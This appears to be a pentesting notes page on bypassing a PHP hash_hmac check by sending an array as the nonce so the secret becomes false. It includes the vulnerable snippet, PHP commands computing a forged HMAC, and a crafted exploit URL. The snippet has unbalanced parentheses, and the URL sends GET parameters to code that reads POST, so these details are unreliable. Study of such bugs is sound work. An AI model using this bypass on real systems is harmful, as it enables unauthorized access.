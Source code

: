 ```yaml
---
title: PHP hash_hmac Bypass
description: 
tags:
    - Web
refs:
    - https://www.securify.nl/blog/spot-the-bug-challenge-2018-warm-up/
date: 2023-03-31
draft: false
---
```


## Investigation

If the website uses **`hash_hmac`** function on PHP as below, we can bypass by injecting parameters.

```php
<?php
	if (empty($_POST['hmac']) || empty($_POST['host']) {
		header('HTTP/1.0 400 Bad Request');
		exit;
	}

	if (isset($_POST['nonce'])
		$secret = hash_hmac('sha256', $_POST['nonce'], $secret);

	$hmac = hash_hmac('sha256', $_POST['host'], $secret);

	if ($hmac !== $_POST['hmac']) {
		header('HTTP/1.0 403 Forbidden');
		exit;
	}
?>
```

When executing the following command, the **`hash_hmac`** returns **false**.

```bash
php -r "echo hash_hmac('sha256', Array(), 'secret')==false;"

# Output
PHP Warning:  hash_hmac() expects parameter 2 to be string, array given in Command line code on line 1
1
```

<br />

## Exploitation

Create a **Hmac hash** by running below.  
In the above PHP script, **`$hmac`** needs to be the same as the parameter values of **`hmac`**.

```bash
php -r "echo hash_hmac('sha256', 'example.com', false)"

# Output
8e35e0a8e5a18b6ef04598dff384c65adf5aced1a1d530b17f86e92eeb9372a8
```

So put the output hmac value into the paramter **"hmac"** and the second arguments ("example.com") into the **host** parameter.

```bash
https://example.com/?nonce[]=&hmac=8e35e0a8e5a18b6ef04598dff384c65adf5aced1a1d530b17f86e92eeb9372a8&host=example.com
```
